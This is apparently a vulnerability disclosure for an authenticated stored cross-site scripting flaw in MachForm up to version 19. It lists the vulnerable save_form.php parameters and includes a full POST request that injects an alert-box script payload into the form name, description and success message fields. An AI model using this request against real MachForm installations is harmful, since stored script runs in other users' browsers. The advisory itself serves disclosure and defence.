 # Description
MachForm up to version 19 is affected by an authenticated stored cross-stie scripting.

In target web application, the request made to the vulnerable resource has been found to be suffering from XSS attack. Parameters of the body's POST request inside vulnerable URL lacks sanitization, this allows malicious payload to be placed and triggers JavaScript code on the victim’s browser.
# Risk
- Severity: Medium
- CVSS v3.1 Score: 4.6
- CVSS v3.1 Vector: [**AV:N/AC:L/PR:L/UI:R/S:U/C:N/I:L/A:L**](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:L/UI:R/S:U/C:N/I:L/A:L&version=3.1)
# Affected Resources
- Version: up to MachForm v19
- https://<application-baseurl\>/save_form.php

The vulnerable parameters:
- `fp%5Bdescription%5D`
- `fp%5Bname%5D`
- `fp%5Bsuccess_message%5D`
# Evidence
It is possible to inject a JavaScript payload in any of the vulnerable parameters

![image_1](./images/image_1.png)

Request:
```
POST /save_form.php HTTP/1.1
Host: application-baseurl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://application-baseurl/
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 2737
Origin: https://application-baseurl
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

form_id=59032&csrf_token=26b435873fec39570ba67d44cce86095c0b598cdd2f46a80&fp%5Bid%5D=59032&fp%5Bname%5D=VAPT_FORM<script>alert(1)</script>&fp%5Bname_hide%5D=0&fp%5Bactive%5D=1&fp%5Bdescription%5D=VAPT+Description<script>alert(1)</script>&fp%5Bredirect%5D=&fp%5Bredirect_enable%5D=0&fp%5Bapproval_enable%5D=0&fp%5Bsuccess_message%5D=Success!+Your+submission+has+been+saved!%3Cscript%3Ealert(1)%3C%2Fscript%3E&fp%5Bpassword%5D=&fp%5Bframe_height%5D=385&fp%5Bunique_ip%5D=0&fp%5Bunique_ip_maxcount%5D=5&fp%5Bunique_ip_period%5D=d&fp%5Bcaptcha%5D=0&fp%5Bcaptcha_type%5D=n&fp%5Breview%5D=0&fp%5Bencryption_enable%5D=0&fp%5Bencryption_public_key%5D=null&fp%5Bentry_edit_enable%5D=0&fp%5Bentry_edit_resend_notifications%5D=0&fp%5Bentry_edit_rerun_logics%5D=0&fp%5Bentry_edit_auto_disable%5D=0&fp%5Bentry_edit_auto_disable_period%5D=1&fp%5Bentry_edit_auto_disable_unit%5D=r&fp%5Bentry_edit_hide_editlink%5D=0&fp%5Bkeyword_blocking_enable%5D=0&fp%5Bkeyword_blocking_list%5D=null&fp%5Blanguage%5D=english&fp%5Bresume_enable%5D=0&fp%5Bresume_subject%5D=Your+submission+to+%7Bform_name%7D+has+been+saved&fp%5Bresume_content%5D=Thank+you!+Your+submission+to+%3Cb%3E%7Bform_name%7D%3C%2Fb%3E+has+been+saved.%3Cbr+%2F%3E%3Cbr+%2F%3EYou+can+resume+the+form+at+any+time+by+clicking+the+link+below%3A%3Cbr+%2F%3E%3Ca+href%3D%22%7Bresume_url%7D%22%3E%7Bresume_url%7D%3C%2Fa%3E%3Cbr+%2F%3E%3Cbr+%2F%3E%3Cbr+%2F%3E%3Cbr+%2F%3E%3Cb%3EIMPORTANT%3A%3C%2Fb%3E%3Cbr+%2F%3EYour+submission+is+considered+incomplete+until+you+resume+the+form+and+press+the+submit+button.&fp%5Bresume_from_name%5D=&fp%5Bresume_from_email_address%5D= &fp%5Bapproval_email_subject%5D=Approval+Required+-+%7Bform_name%7D+%5B%23%7Bentry_no%7D%5D&fp%5Bapproval_email_content%5D=This+entry+needs+your+approval.%3Cbr%2F%3E%3Cbr%2F%3EPlease+approve+or+deny+by+using+the+link+below%3A%3Cbr%2F%3E%3Cstrong%3E%7Bview_entry_link%7D%3C%2Fstrong%3E%3Cbr%2F%3E%3Cbr%2F%3E%3Chr+style%3D%22width%3A+60%25%3Bmargin-top%3A+20px%3Bmargin-bottom%3A+20px%22%3E%3Cbr%2F%3E%7Bentry_data%7D&fp%5Blimit_enable%5D=0&fp%5Blimit%5D=0&fp%5Blabel_alignment%5D=top_label&fp%5Bschedule_enable%5D=0&fp%5Bschedule_start_date%5D=null&fp%5Bschedule_start_hour%5D=12%3A00%3Aam&fp%5Bschedule_end_date%5D=null&fp%5Bschedule_end_hour%5D=12%3A00%3Aam&fp%5Bpage_total%5D=1&fp%5Bpagination_type%5D=steps&fp%5Breview_primary_text%5D=Submit&fp%5Breview_secondary_text%5D=Previous&fp%5Breview_primary_img%5D=&fp%5Breview_secondary_img%5D=&fp%5Breview_use_image%5D=0&fp%5Breview_title%5D=Review+Your+Entry&fp%5Breview_description%5D=Please+review+your+entry+below.+Click+Submit+button+to+finish.&fp%5Bcustom_script_enable%5D=0&fp%5Bcustom_script_url%5D=&el_pos=el_pos%5B%5D%3D1
```

The payload then triggers in when a user attempts to edit the form affected by the injection.

![image_2](./images/image_2.png)

![image_3](./images/image_3.png)